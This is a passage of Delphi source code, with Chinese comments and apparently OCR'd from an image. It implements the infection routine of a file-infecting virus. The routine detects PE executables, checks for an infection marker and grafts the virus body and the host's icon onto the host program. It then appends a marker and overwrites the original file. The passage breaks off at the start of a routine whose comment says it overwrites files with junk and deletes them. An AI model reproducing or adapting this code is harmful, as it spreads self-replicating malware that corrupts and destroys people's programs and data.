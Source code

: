       SrcStream := TFileStream.Create(FileName, fmOpenRead);
      try
        for i := 0 to $108 do //检查PE文件头
        begin
        SrcStream.Seek(i, soFromBeginning);
        SrcStream.Read(Buf, 2);
        if (Buf[0] = #80) and (Buf[1] = #69) then //PE标记
        begin
          IsPE := True; //是PE文件
          Break;
        end;
        end;
        SrcStream.Seek(-4, soFromEnd); //检查感染标记
        SrcStream.Read(iID, 4);
        if (iID = ID) or (SrcStream.Size < 10240) then //太小的文件不感染
        Infected := True;
      finally
        SrcStream.Free;
end;
      if Infected or (not IsPE) then //如果感染过了或不是PE文件则退出
        Exit;
      IcoStream := TMemoryStream.Create;
      DstStream := TMemoryStream.Create;
      try
        aIcon := TIcon.Create;
        try
        //得到被感染文件的主图标(744字节)，存入流
        aIcon.ReleaseHandle;
        aIcon.Handle := ExtractIcon(HInstance, PChar(FileName), 0);
        aIcon.SaveToStream(IcoStream);
        finally
        aIcon.Free;
        end;
        SrcStream := TFileStream.Create(FileName, fmOpenRead);
        //头文件
        HdrStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
        try
        //写入病毒体主图标之前的数据
        CopyStream(HdrStream, 0, DstStream, 0, IconOffset);
        //写入目前程序的主图标
        CopyStream(IcoStream, 22, DstStream, IconOffset, IconSize);
        //写入病毒体主图标到病毒体尾部之间的数据
        CopyStream(HdrStream, IconTail, DstStream, IconTail, HeaderSize - IconTail);
        //写入宿主程序
        CopyStream(SrcStream, 0, DstStream, HeaderSize, SrcStream.Size);
        //写入已感染的标记
        DstStream.Seek(0, 2);
        iID := $44444444;
        DstStream.Write(iID, 4);
        finally
        HdrStream.Free;
        end;
      finally
        SrcStream.Free;
        IcoStream.Free;
        DstStream.SaveToFile(FileName); //替换宿主文件
        DstStream.Free;
      end;
except;
end;
end;
{ 将目标文件写入垃圾码后删除 }
procedure SmashFile(FileName: string);
var